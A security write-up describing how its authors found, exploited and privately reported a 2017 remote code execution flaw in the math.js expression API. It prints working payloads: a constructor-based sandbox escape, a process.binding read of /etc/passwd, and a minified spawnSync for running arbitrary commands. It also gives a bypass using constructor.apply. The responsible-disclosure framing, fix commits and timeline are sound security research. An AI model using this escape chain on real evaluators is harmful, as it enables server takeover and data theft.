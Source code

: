 How we exploited a remote code execution vulnerability in math.js
====

This article explains in short how we found, exploited and reported a remote code execution (RCE) vulnerability. It is meant to be a guide to finding vulnerabilities, as well as reporting them in a responsible manner.

## Step one: discovery
While playing around with [a wrapper](https://github.com/LucentW/s-uzzbot/blob/master/plugins/calculator.lua) of the math.js API (`http://api.mathjs.org/v1/?expr=expression-here`), we discovered that it **appears to evaluate JavaScript**, though with some restrictions:

```
> !calc cos
Result: function

> !calc eval
Result: function

> !calc eval("x => x")
Error: Value expected (char 3)

> !calc eval("console.log")
Error: Undefined symbol console

> !calc eval("return 1")
Result: 1
```

In particular, it seems that `eval` was replaced with a safe version. `Function` and `setTimeout`/`setInterval` didn't work, either:

```
> !calc Function("return 1")
Error: Undefined symbol Function

> !calc setTimeout
Error: Undefined symbol Function
```

## Step two: exploitation

>Now that we figured out that there are some sort of restrictions around code evaluation, we had to escape them.

There are four standard ways to **evaluate strings in JavaScript**:

  - [`eval("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
  - [`new Function("code")`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function)
  - [`setTimeout("code", timeout)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setTimeout)
  - [`setInterval("code", interval)`](https://developer.mozilla.org/en-US/docs/Web/API/WindowOrWorkerGlobalScope/setInterval)

In the math.js environment, these cannot be accessed directly, either because they aren't defined or because they have been redefined with safe functions. However, they can be accessed indirectly: notably, **`Function` can be accessed indirectly as the constructor of an existing function** - this was the key intuition that led to discovering the vulnerability.

>For example, `Function("return 1")` can be replaced with `Math.floor.constructor("return 1")`. Therefore, to evaluate `return 1`, we can use `Math.floor.constructor("return 1")()`.

We know that in the math.js environment `cos` is defined as a function, so we used that:

```
> !calc cos.constructor("return 1")()
Result: 1
```

Success!

From here we could have simply `require`-d some native modules and gained access to the OS, right? Not so fast: although the math.js API server runs in a Node.js environment, for whatever reason we couldn't use `require`.

```
> !calc cos.constructor("return require")()
Error: require is not defined
```

However, we could use `process`, which has [a few nifty features](https://nodejs.org/api/process.html):

```
> !calc cos.constructor("return process")()
Result: [object process]

> !calc cos.constructor("return process.env")()
Result: {
  "WEB_MEMORY": "512",
  "MEMORY_AVAILABLE": "512",
  "NEW_RELIC_LOG": "stdout",
  "NEW_RELIC_LICENSE_KEY": "<redacted>",
  "DYNO": "web.1",
  "PAPERTRAIL_API_TOKEN": "<redacted>",
  "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin",
  "WEB_CONCURRENCY": "1",
  "PWD": "/app",
  "NODE_ENV": "production",
  "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]",
  "SHLVL": "1",
  "HOME": "/app",
  "PORT": "<redacted>",
  "NODE_HOME": "/app/.heroku/node",
  "_": "/app/.heroku/node/bin/node"
}
```

Though `process.env` contains some bits of juicy info, it can't really do anything interesting: we need to go deeper and use [`process.binding`](http://stackoverflow.com/q/24042861), which exposes Javascript bindings to the OS. Though they are not officially documented and are meant for internal usage, one can reconstruct their behaviour from reading through the Node.js source code. For example, we can use `process.binding("fs")` to read arbitrary files on the OS (with the appropriate permissions):

>For brevity, we'll skip the `!calc cos.constructor("code")` wrapper, and paste the relevant JS code instead.

```
> buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
<more users...>
```

We're almost done: now we need to figure out a way to open a shell and run arbitrary commands. If you have experience with Node.js, you may know about [`child_process`](https://nodejs.org/api/child_process.html), which can be used to spawn processes with `spawnSync`: we just need to replicate this feature using OS bindings (remember that we can't use `require`).

This is easier than it seems: you can just take [the source code for `child_process`](https://github.com/nodejs/node/blob/master/lib/child_process.js), remove the code you don't need (unused functions and error handling), minify it, and run it through the API.

<script src="https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822.js"></script>
<noscript>
```
// Source: https://github.com/nodejs/node/blob/master/lib/child_process.js

// Defines spawn_sync and normalizeSpawnArguments (without error handling). These are internal variables.
spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}

// Defines spawnSync, the function that will do the actual spawning
spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
```
<small>Gist [here](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822)</small>
</noscript>

From here, **we can spawn arbitrary processes** and run shell commands:

```
> return spawnSync('/usr/bin/whoami');
{
  "status": 0,
  "signal": null,
  "output": [null, u15104, ],
  "pid": 100,
  "stdout": u15104,
  "stderr":
}
```

## Step three: reporting

Now that we found a vulnerability and exploited it to the largest extent possible, we had to decide what to do with it. Since we exploited it for fun and have no malicious intents, we took the "white hat" road and reported it to the maintainer. We **contacted him privately** through the e-mail address listed on his GitHub profile with the following details:

 - a short description of the vulnerability (a remote code execution flaw in mathjs.eval);
 - an **example attack** with explanation of how it works (a summary of why `cos.constructor("code")()` works and what can be achieved with `process.bindings`);
 - an actual **demonstration** on the live server (we included the output of `whoami` and `uname -a`);
 - suggestions on **how to fix it** (using the [`vm` module in Node.js](https://nodejs.org/api/vm.html), for example).

Over a course of two days, we worked with the author to help fix the vulnerability. Notably, after he pushed a fix in [`2f45600`](https://github.com/josdejong/mathjs/commit/2f456009056bc332673f45ca143d4d92c8c7b159) we found a similar workaround (if you can't use the constructor directly, use `cos.constructor.apply(null, "code")()`) which was fixed in [`3c3517d`](https://github.com/josdejong/mathjs/commit/3c3517daa6412457826b79b60368d8e8e415a7dd).

### Timeline
 - 26 March 2017 22:20 CEST: first successful exploitation
 - 29 March 2017 14:43 CEST: vulnerability reported to the author
 - 31 March 2017 12:35 CEST: second vulnerability (`.apply`) reported
 - 31 March 2017 13:52 CEST: both vulnerabilities are fixed

---

>This vulnerability was discovered by [\@CapacitorSet](https://github.com/CapacitorSet) and [\@denysvitali](https://github.com/denysvitali). Thanks to [\@josdejong](https://github.com/josdejong/) for promptly fixing the vulnerability and [JSFuck](http://www.jsfuck.com/) for discovering the `[].filter.constructor` trick.
>
>A clarification from Jos: math.js does not "evaluate JavaScript" as previously thought, rather, it "has its own parser with its own math oriented syntax and its own operators and functions. But these functions are still JavaScript functions of course."
>
><small>Released under [**CC-BY 4.0**](https://creativecommons.org/licenses/by/4.0/).
